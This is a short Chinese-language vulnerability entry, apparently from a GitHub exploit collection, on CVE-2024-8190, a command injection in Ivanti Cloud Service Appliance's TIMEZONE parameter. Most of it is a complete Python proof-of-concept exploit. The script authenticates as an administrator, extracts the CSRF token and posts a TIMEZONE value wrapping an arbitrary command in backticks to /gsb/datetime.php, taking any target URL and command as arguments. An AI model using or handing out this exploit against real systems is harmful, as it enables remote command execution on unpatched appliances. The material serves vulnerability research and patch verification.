 # Ivanti Cloud Service Appliance存在命令注入漏洞(CVE-2024-8190)

Ivanti Cloud Service Appliance 4.6 Patch 519之前版本中存在命令注入漏洞，由于解析HTTP请求时对TIMEZONE请求参数缺乏适当的输入验证和清理，导致恶意输入可以被exec()函数执行，从而导致命令注入，经过身份验证且拥有管理员权限的威胁者可利用该漏洞远程执行任意命令。

## poc

```python
#!/usr/bin/python3
import argparse
import re
import requests
import sys
import urllib3
from requests.auth import HTTPBasicAuth
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)



def exploit(url, username, password, command):
    u = username
    p = password
    s = requests.Session()
    r = s.get(f"{url}/gsb/datetime.php", auth=HTTPBasicAuth(u,p), verify=False)
    m = re.search(r"name=['\"]LDCSA_CSRF['\"]\s+value=['\"]([^'\"]+)['\"]", r.text)
    if m:
        ldcsa = m.group(1)
        print(f"[+] Got LDCSA_CSRF value: {ldcsa}")
    else:
        print(f"[-] Failed getting LDCSA_CRSF token")
        sys.exit(0)

    payload = {
        "dateTimeFormSubmitted": "1",
        "TIMEZONE": f"; `{command}` ;",
        "CYEAR": "2024",
        "CMONTH": "9",
        "CDAY": "13",
        "CHOUR": "12",
        "CMIN": "34",
        "LDCSA_CSRF": ldcsa,
        "SUBMIT_TIME": "Save"
    }
    print(f"[*] Sending payload...")
    r = s.post(f"{url}/gsb/datetime.php", auth=HTTPBasicAuth(u,p), verify=False, data=payload)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='The base URL of the target', required=True)
    parser.add_argument('--username', help='The application username', required=True)
    parser.add_argument('--password', help='The application password', required=True)
    parser.add_argument('-c', '--command', help='The command to execute blind', type=str, required=True)
    args = parser.parse_args()

    exploit(args.url, args.username, args.password, args.command)
```





## 漏洞来源

- https://www.horizon3.ai/attack-research/cisa-kev-cve-2024-8190-ivanti-csa-command-injection/
- https://github.com/lal0ne/vulnerability/tree/main/Ivanti/CVE-2024-8190